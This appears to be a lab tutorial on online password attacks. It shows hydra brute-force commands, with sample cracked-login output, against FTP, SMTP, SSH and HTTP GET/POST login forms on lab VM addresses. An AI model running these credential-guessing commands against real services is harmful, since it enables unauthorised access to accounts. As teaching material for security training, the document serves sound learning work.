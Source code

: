 ```yaml
---
title: Online Password Attacks 🏯
---
```

Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, FTP, SNMP, POP3, etc. This section showcases using hydra which is a common tool used in attacking logins for various network services.  

## Hydra

Hydra supports an extensive list of network services to attack. Using hydra, we'll brute-force network services such as web login pages, FTP, SMTP, and SSH in this section. Often, within hydra, each service has its own options and the syntax hydra expects takes getting used to. It's important to check the help options for more information and features.  

## FTP  

In the following scenario, we will perform a brute-force attack against an FTP server. By checking the hydra help options, we know the syntax of attacking the FTP server is as follows:

````shell           
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x
````

`-l ftp` we are specifying a single username, use `-L` for a username wordlist

`-P Path` specifying the full path of wordlist, you can specify a single password by using `-p` 

`ftp://10.10.x.x` the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

Remember that sometimes you don't need to brute-force and could first try default credentials. Try to attack the FTP server on the attached VM and answer the question below.

## SMTP  

Similar to FTP servers, we can also brute-force SMTP servers using hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.

````shell           
user@machine$ hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:41:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking smtp://10.10.x.x:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.x.x   login: email@company.xyz password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
````

## SSH  

SSH brute-forcing can be common if your server is accessible to the Internet. Hydra supports many protocols, including SSH. We can use the previous syntax to perform our attack! It's important to notice that password attacks rely on having an excellent wordlist to increase your chances of finding a valid username and password.

````shell           
user@machine$ hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:48:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.10.x.x:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@10.10.x.x:22
[INFO] Successful, password authentication is supported by ssh://10.10.x.x:22
[22][ssh] host: 10.10.x.x   login: victim   password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
````

## HTTP login pages

In this scenario, we will brute-force HTTP login pages. To do that, first, you need to understand what you are brute-forcing. Using hydra, it is important to specify the type of HTTP request, whether GET or POST. Checking hydra options: `hydra http-get-form -U`, we can see that hydra has the following syntax for the http-get-form option:

`<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`

As we mentioned earlier, we need to analyze the HTTP request that we need to send, and that could be done either by using your browser dev tools or using a web proxy such as Burp Suite.

````shell           
user@machine$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (http://www.thc.org/thc-hydra) starting at 2021-10-13 08:06:22 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 500 login tries (l:1/p:500), ~32 tries per task 
[DATA] attacking http-get-form://10.10.x.x:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php 
[80][http-get-form] host: 10.10.x.x   login: admin password: xxxxxx 
1 of 1 target successfully completed, 1 valid password found 
Hydra (http://www.thc.org/thc-hydra) 
finished at 2021-10-13 08:06:45
````

`-l admin`  we are specifying a single username, use `-L` for a username wordlist

`-P Path` specifying the full path of wordlist, you can specify a single password by using -p.

`10.10.x.x` the IP address or the fully qualified domain name (FQDN) of the target.

`http-get-form` the type of HTTP request, which can be either `http-get-form` or `http-post-form`

Next, we specify the URL, path, and conditions that are split using `:`

`login-get/index.php` the path of the login page on the target webserver.

`username=^USER^&password=^PASS^` the parameters to brute-force, we inject `^USER^` to brute force usernames and `^PASS^` for passwords from the specified dictionary.

The following section is important to eliminate false positives by specifying the 'failed' condition with p`F=`.

And success conditions, `S=`. You will have more information about these conditions by analyzing the webpage or in the enumeration stage! What you set for these values depends on the response you receive back from the server for a failed login attempt and a successful login attempt. For example, if you receive a message on the webpage 'Invalid password' after a failed login, set `F=Invalid Password`.

Or for example, during the enumeration, we found that the webserver serves `logout.php`. After logging into the login page with valid credentials, we could guess that we will have logout.php somewhere on the page. Therefore, we could tell hydra to look for the text `logout.php` within the HTML for every request.

`S=logout.php` the success condition to identify the valid credentials

`-f` to stop the brute-forcing attacks after finding a valid username and password

You can try it out on the attached VM by visiting `http://10.10.188.205/login-get/index.php`. Make sure to deploy the attached VM if you haven't already to answer the questions below.

Finally, it is worth it to check other online password attacks tools to expand your knowledge, such as:  

- `Medusa`
- `Ncrack`
- `others!`

*NOTE: Simple Mail Transfer Protocol (SMTP) is a protocol used to send the email to an SMTP server, more specifically to a Mail Submission Agent (MSA) or a Mail Transfer Agent (MTA).*

*NOTE: to make an **hydra** password crack to a post form: `hydra -l burgess -P burgess.txt 10.10.188.205 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f -I`*

